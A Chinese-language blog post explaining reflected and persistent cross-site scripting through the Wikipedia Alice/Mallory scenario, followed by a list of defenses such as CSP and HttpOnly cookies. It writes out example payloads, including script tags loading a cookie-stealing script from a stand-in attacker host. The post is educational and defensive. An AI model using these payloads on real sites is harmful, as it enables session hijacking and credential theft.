 ```yaml
---
layout: post
---
```


wiki里讲了两个xss攻击的例子. 非持续性xss(Non-persistent)，也称为Reflected xss.(来自陌生人的) 与 持续性(Persistent)攻击。

## Non-persistent

Alice 经常去一个Blob的网站，且Blob的网站允许Alice使用username/password登录和存储一些敏感信息，
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://blobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://blobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些还可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


## Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

当其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


## 结语

其实xss的种类有很多种，其中原理全部是想尽办法将恶意脚本注入页面内，并且执行攻击者的脚本。
上面的xss防范方法对于很多情况下都适用。
